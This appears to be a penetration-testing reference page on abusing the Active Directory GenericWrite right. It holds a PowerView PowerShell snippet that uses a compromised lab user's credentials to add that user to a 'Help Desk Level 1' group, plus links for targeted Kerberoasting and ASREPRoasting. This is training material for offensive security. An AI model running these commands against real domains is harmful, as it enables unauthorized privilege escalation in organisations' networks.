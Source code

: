 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# GenericWrite

## Information

<table><thead><tr><th width="151">Right</th><th width="116">Value</th><th>Description</th></tr></thead><tbody><tr><td>GenericWrite</td><td>131112</td><td>The right to read permissions on this object, write all the properties on this object, and perform all validated writes to this object.</td></tr></tbody></table>

## Exploitation

### Over a User

#### Targeted Kerberoasting

Check [here](genericall.md#targeted-kerberoasting).

#### Targeted ASREPRoasting

Check [here](genericall.md#targeted-asreproasting).

### Over a Group

#### Adding Group Member

<figure><img src="../../../../.gitbook/assets/genericwrite_group_bh.png" alt=""><figcaption><p>Figure 1: GenericWrite of a user over a group.</p></figcaption></figure>

{% code overflow="wrap" %}
```powershell
# creating a SecureString Object for the owned user
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)

# add the compromised user to the group
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred -Verbose 

# confirm that damundsen was added to the group
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#genericwrite" %}
{% endtab %}
{% endtabs %}
